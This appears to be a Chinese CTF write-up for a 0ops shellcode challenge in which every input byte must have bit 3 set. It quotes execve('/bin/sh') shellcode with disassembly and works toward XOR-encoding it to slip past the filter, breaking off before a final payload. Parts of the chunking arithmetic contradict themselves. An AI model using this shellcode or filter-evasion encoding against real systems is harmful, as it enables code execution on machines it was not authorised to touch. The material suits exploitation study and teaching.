 # Shellcode 2

上一版本的 Shellcoder 说：「Maybe next time we should add more architectures」…

我还以为 Shellcoder 2 会要求「三种不同架构」的共通语呢…

这次直接就是个 C 程序了。

大概是这样的：

```python
# 不是 Python，只是借用一下语法…
def main(argc: int, argv: list[str]) -> int:
    setbuf(_bss_start, 0);
    print("Welcome to 0ops shellcode trilogy.")
    print("This is shellcode II: Emission of light")
    print("Input your shellcode:")
    buf = mmap(addr='wherever', size=0x1000, prot=['read', 'write', 'exec'], flags=['anonymous', 'shared'], fd=0, offset=0)
    read('cin', buf, 0x1000)
    
    for ch in buf:
        if not ch & 8:
            print("I'm so foolish that I don't recognize this genius shellcode")
            exit(-1)
    
    # just execute it fine
    execute(buf)
```

也没有加很多限制，除了……输入的 Shellcode 中的每一个字节的（从低到高数）第 4 位必须是 1。

> 魔鬼…魔鬼…

先打开 Shell Storm 找一下有没有合用的吧…

先来一个最短的看一下：

```assembly
--[ asm
6a 42                   push   0x42
58                      pop    rax
fe c4                   inc    ah
48 99                   cqo
52                      push   rdx
48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f
2f 73 68
57                      push   rdi
54                      push   rsp
5e                      pop    rsi
49 89 d0                mov    r8, rdx
49 89 d2                mov    r10, rdx
0f 05                   syscall
```

这可只有 29 个字节啊！

Python 跑一遍，这些字节不符合：

```
bad code 0x42
bad code 0xc4
bad code 0x52
bad code 0x62
bad code 0x73
bad code 0x57
bad code 0x54
bad code 0xd0
bad code 0xd2
bad code 0x5
```

其他都可能还可以绕过…但是你这个！`05`！居然！不能用！

`syscall`（`0f 05`）怎么绕得过去啊！

随手敲了一下，发现这个笨蛋程序不会过滤换行符。就算什么也不输入，他也会被这个 `\n` 绊死。

想要 Pwn？原程序很好地使用了 `read(STDIN, buf, 0x1000)` 的方式来规避 Buffer Overflow。

不过这也给了我们一个办法：只要发送超过 `4096` 个字符，那么超长的字符（包括 `\n`）就会被丢弃。

> 用这种勉强的办法来绕过 `code & 8` 限制…

另外，[这里](https://stackoverflow.com/questions/34110045/shellcode-with-restrictions) 有个非常类似的例子：32 位机器下面，0x80 被 Ban 了，不能在 Shellcode 的任何位置出现。

这里是她提供的一种替代手法：

```assembly
format ELF executable
use32
entry start

segment executable  writeable
  start:
  ;<some code>
  inc byte [ here + 1 ] ;<or some other math>
  jmp here
here:
  int 0x7f
segment readable  writeable
```

简而言之，就是利用到了 `buf` 不仅可执行，还是可写的特性。这允许程序在运行时动态修改自身。

> 我大概明白为什么这是病毒常见的行为模式了。

这种办法在 Banned 位不多的情况下还是可行的。假如仅仅是拒绝了 `0x80` 或者是 `0x0f`、`0x05`，都不至于像这般悲剧。

主要问题是，这样生成的代码必然会带有间接寻址。换句话说，会有大量的前缀 `0` 存在。因此这种方法是不太可行的。

[这里](https://h0mbre.github.io/LTER_SEH_Success/) 还有另一种 Forbidden Shellcode 的绕过方法，就比较接近我们的情况了。她禁止掉了所有的不可打印字符。

而我们这里是禁止掉了所有低第 4 位是 0 的字节。

> 幸好，`xor` 幸免于难。

按照这种一般化的绕过方法，我们首先需要置空一个寄存器。

如果用我们熟悉的 `rax`，就会生成一个 `\xc0` Byte，不合要求。

所以勉为其难地用一下 `rcx` 好了。这样得到的结果就是

```assembly
0:  48 31 c9	# xor    rcx,rcx
```

> [这个](https://defuse.ca/online-x86-assembler.htm#disassembly) 在线 Assembler & Disassembler 真是太好用

然後，我们得拿一串需要编码的 Shellcode。

> 越短越好。不想折腾太长的。

摸一个 21 Bytes 的：

```assembly
shellcode:     file format elf64-x86-64
Disassembly of section .text:
0000000000400080 <_start>:
  400080:       f7 e6                   mul    %esi
  400082:       50                      push   %rax
  400083:       48 bf 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rdi
  40008a:       2f 73 68 
  40008d:       57                      push   %rdi
  40008e:       48 89 e7                mov    %rsp,%rdi
  400091:       b0 3b                   mov    $0x3b,%al
  400093:       0f 05                   syscall 
;================================================================================
```

也就是：

```python
shellcode = "\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
```

然后把它分成 8 字节一组的 Chunk，并且把其中每个 Chunk 都倒置。为了避免不必要的麻烦，这里在右端补 `0x48`。

```python
['HHH\x05', '\x0f;°ç', '\x89HWh', 's//n', 'ib/¿', 'HPæ÷']
```

这样，从右到左读我们应该能刚好读出我们的目标 Shellcode 才对。

把每一个 4 Bytes 组都写成 32 位无符号整数的形式，我们可以得到该往 Stack 里放的东西：

```python
>>> magic_numbers
[20345673995759847, 9892252687639981934, 7593684420298598135]
```

或者，你可能会更喜欢：

```python
>>> [hex(v) for v in magic_numbers]
['0x4848485f3bb0e7', '0x89485768732f2f6e', '0x69622fbf4850e6f7']
```

现在的问题就是，如何在不犯规的情况下，把这些值放到映射内存中去。

首先，我们可以用 XOR 位操作，在某个寄存器中放入任意的值。

这里的限制，作用到寄存器里实际上就是「某些位必须是 1」。那么，简单用 XoR 做一下就好了。

那么，只要我们首先将 `%rsp` 设置为特殊的值，在需要的地方用 `push` 把数字写入内存（倒序地！）就可以实现任意内存的写入。

> 但是，这里又遇到一个问题：`push` 的指令代码不合法。没有办法用这种手段来把关键性的 `push` 代码纳入。

